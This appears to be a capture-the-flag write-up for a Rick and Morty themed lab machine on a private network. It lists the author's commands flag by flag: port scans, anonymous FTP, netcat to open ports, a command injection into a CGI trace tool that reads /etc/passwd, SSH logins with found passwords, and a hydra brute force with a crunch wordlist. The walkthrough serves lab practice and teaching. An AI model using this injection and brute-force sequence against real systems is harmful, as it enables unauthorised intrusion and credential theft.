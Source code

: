 +++
title = "write up de nbenny"
weight = 0

[extra]
author = "nbenny"
points = 130
+++

``` sh
arp-scan -l -I eth0
nikto -host 10.0.2.11
Mozilla - http://10.0.2.11/passwords/FLAG.txt
```

**FLAG{Yeah d- just don't do it.} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nikto -host 10.0.2.11 -port 9090
Mozilla - http://10.0.2.11:9090
```

**FLAG {There is no Zeus, in your face!} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
nc 10.0.2.11 13337
```

**FLAG {They Found My Back Door Morty} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
```

``` sh
ftp 10.0.2.11 21
```

basic set login on ftp

- id: Anonymous
- pwd: Anonymous

``` sh
get FLAG.txt
quit
```

``` sh
cat FLAG.txt
```

**FLAG{Whoa this is unexpected} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
nc 10.0.2.11 60000
ls ; cat FLAG.txt
```

**FLAG{Flip the pickle Morty!} - 10 Points**

----------

``` sh
arp-scan -l -I eth0
nmap -p- -T5 -A -sV 10.0.2.11
nikto -host 10.0.2.11 -port 80
dirb http://10.0.2.11/
Mozilla http://10.0.2.11/robots.txt
Mozilla http://10.0.2.11/cgi-bin/tracertool.cgi
```

- insert in tracertool.cgi `;head -1000 /etc/passwd`
- press trace!
- user found -> **Ricksanchez**, **Morty** et **Summer**

``` sh
Mozilla http://10.0.2.11/passwords/passwords.html
```

- inspect element:
- commentaire = Password: **winter**

``` sh
ssh Summer@10.0.2.11 -p 22222
```

password = winter

``` sh
cat FLAG.txt
```

afficher l entete du fichier

``` sh
head FLAG.txt
```

**FLAG{Get off the high road Summer!} - 10 Points**

----------

``` sh
cd /home/Morty
head Safe_Password.jpg
```

The Safe Password: File: /home/Morty/journal.txt.zip. **Password: Meeseek**

``` sh
scp -P 22222 Summer@10.0.2.11:/home/Morty/journal.txt.zip ./
exit
unzip journal.txt.zip
cat journal.txt
```

**FLAG{131333} - 20 Points**

----------

``` sh
ssh Summer@10.0.2.11 -p 22222
cd ~
cp ../RickSanchez/RICKS_SAFE/safe .
./safe 131333
```

**FLAG{And Awwwaaaaayyyy we Go!} - 20 Points**

----------

``` sh
crunch 10 10 azertyuiopqsdfghjklmwxcvbn0123456789AZERTYUIOPQSDFGHJKLMWXCVBN > passfinal
hydra -l RickSanchez -P passfinal ssh://10.0.2.11 -s 22222
```

password: P7Curtains

``` sh
ssh RickSanchez@10.0.2.11 -p 22222
sudo -l
cd
head FLAG.txt
```

**FLAG{Ironic Defibrillator} - 30 points**
